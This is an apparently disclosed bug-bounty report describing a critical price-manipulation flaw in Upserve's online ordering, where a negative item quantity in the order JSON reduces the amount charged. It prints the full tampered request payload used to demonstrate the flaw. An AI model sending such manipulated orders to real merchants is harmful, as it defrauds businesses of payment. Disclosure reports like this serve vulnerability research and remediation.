 # OLO Total price manipulation using negative quantities

## Report Details
- **Report ID**: 364843
- **URL**: https://hackerone.com/reports/364843
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-06-11T22:02:17.892Z
- **Disclosed**: 2019-07-06T17:59:06.463Z

## Reporter
- **Username**: fuzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: upserve

## Vulnerability Information
Manipulating an order request JSON object, containing an additional item with a negative quantity directly manipulates the total amount of the order.

In the following JSON request, an order is submitted for 2 ChickenBurgers ($12 each), as well as -1 BreadPuddings ($9 each).

The total price after tax calculates as $18.70 and is accepted by the system. The attached screenshots show the previous orders, indicating that only $18.70 was charged for the transaction.

```json
{"card_uuid": "09ef096d-18d7-4cb4-83b7-5bd15d310aac", "city": "Cambridge", "email": "mthompson@hexwave.com", "first_name": "Matt", "last_name": "Thompson", "line1": "1230 Massachusetts Ave", "order": {"charges": {"items": [{"item_id": "254baa85-92c1-412e-a391-aaf44508d882", "name": "ChickenBurger", "price": 1200, "quantity": 2, "instructions": "", "total": 1200, "modifiers": [], "sides": []}, {"item_id": "9169bfc1-2ee1-455b-ad65-aeadd36f46eb", "name": "BreadPudding", "price": 900, "quantity": -1, "instructions": "", "total": 900, "modifiers": [], "sides": []}], "taxes": 290, "tip": {"amount": 0}, "total": 1870}, "confirmation_code": "upserve-hacker-cafe-32870", "fulfillment_info": {"customer": {"email": "mthompson@hexwave.com", "first_name": "Matt", "last_name": "Thompson", "phone": "555-555-5555"}, "delivery_info": {"address": {"address_line1": "1230 Massachusetts Ave", "address_line2": null, "city": "Cambridge", "country": "", "state": "MA", "zip_code": "02138"}}, "instructions": "", "type": "delivery"}, "id": "a168f311-f0bf-416c-b813-b277e3a7b5b3", "payments": {"payments": [{"amount": 0, "payment_type": "CREDIT", "tip_amount": 0}], "total": 3190}, "time_placed": "2018-06-11T20:48:51.313Z"}, "order_total": 3190, "phone_number": "555-555-5555", "state": "MA", "store_pretty_url": "upserve-lounge-test-providence-2", "submission_id": "a168f311-f0bf-416c-b813-b277e3a7b5b3", "text_alerts": false, "zip": "02138"}
```

## Impact

The attacker can reduce the price of the order.

## Attachments
- Screen_Shot_2018-06-11_at_2.36.37_PM.png
- Screen_Shot_2018-06-11_at_2.36.48_PM.png
